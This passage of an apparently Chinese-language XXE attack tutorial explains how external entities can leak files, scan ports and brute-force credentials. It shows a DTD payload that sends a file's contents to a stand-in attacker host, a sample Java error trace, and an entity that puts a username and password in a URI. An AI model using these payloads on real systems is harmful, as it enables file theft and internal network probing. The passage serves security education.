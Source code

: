 ```xml
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % all "<!ENTITY send SYSTEM 'http://example.com/?%file;'>">
%all;
```

第二个 [DTD](https://www.w3schools.com/xml/xml_dtd_intro.asp) 导致系统将 `file` 的内容作为 URL 参数发送回攻击者的服务器。

##### 端口扫描

端口扫描生成的信息量和类型取决于实现方式。响应可分类如下，从简单到复杂：

**1) 完全泄露**：这是最简单且最不寻常的场景，通过完全泄露，你可以清楚地看到查询服务器返回的完整响应，获得连接到远程主机时发生的精确表示。

**2) 基于错误**：如果无法看到远程服务器的响应，可能可以使用错误响应生成的信息。考虑一个 Web 服务在尝试建立连接时在 SOAP Fault 元素中泄露详细信息：

```text
java.io.IOException: Server returned HTTP response code: 401 for URL: http://192.168.1.1:80
 at sun.net.www.protocol.http.HttpURLConnection.getInputStream(HttpURLConnection.java:1459)
 at com.sun.org.apache.xerces.internal.impl.XMLEntityManager.setupCurrentEntity(XMLEntityManager.java:674)
```

**3) 基于超时**：扫描器可能在连接开放或关闭的端口时生成超时，具体取决于模式和底层实现。如果在尝试连接关闭端口时发生超时（可能需要一分钟），那么连接到有效端口的响应时间将非常快（例如一秒）。开放和关闭端口之间的差异变得相当明显。

**4) 基于时间**：有时很难区分关闭和开放端口，因为结果非常微妙。要确定端口状态，唯一的方法是对到达每个主机所需的时间进行多次测量，然后分析每个端口的平均时间以确定每个端口的状态。如果在高延迟网络中执行，这种类型的攻击将很难完成。

##### 暴力破解

**一旦攻击者确认可以执行端口扫描，执行暴力攻击就是将 `username` 和 `password` 嵌入 URI 方案（http、ftp 等）的问题。**例如，请看以下示例：

```xml
<!DOCTYPE root [
 <!ENTITY user SYSTEM "http://username:password@example.com:8080">
]>
<root>&user;</root>
```
